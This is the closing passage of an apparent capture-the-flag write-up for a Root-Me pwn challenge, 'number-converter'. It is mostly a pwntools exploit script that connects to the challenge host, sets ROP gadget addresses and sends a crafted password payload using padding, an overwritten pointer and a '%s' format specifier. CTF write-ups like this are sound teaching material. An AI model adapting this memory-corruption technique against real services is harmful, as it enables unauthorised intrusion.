 ![8.png](https://github.com/retr0Rocks/retr0rocks.github.io/blob/master/_posts/pwn-root-me-ctf10k/8.PNG?raw=true)

and voila, solved.
# Final Exploit
```python
from pwn import *
p = remote("ctf10k.root-me.org", 5006)
#p = process("./number-converter")
elf = ELF("./number-converter", checksec = 0)
#libc = elf.libc
libc = ELF("./libc-2.31.so", checksec = 0)
ret = p64(0x000000000040101a)
rdi = p64(0x0000000000401583)
user = b"admin"
password = b"sup3rus3r"
password += b"\x00"
password += b"\x00" * 6
password += p64(0x4040d8) #password + 16
password += b"%s"
password += b"\x00" * 3

p.sendlineafter("login: ", user)
p.sendlineafter("password: ", password)
p.sendline("-1")
```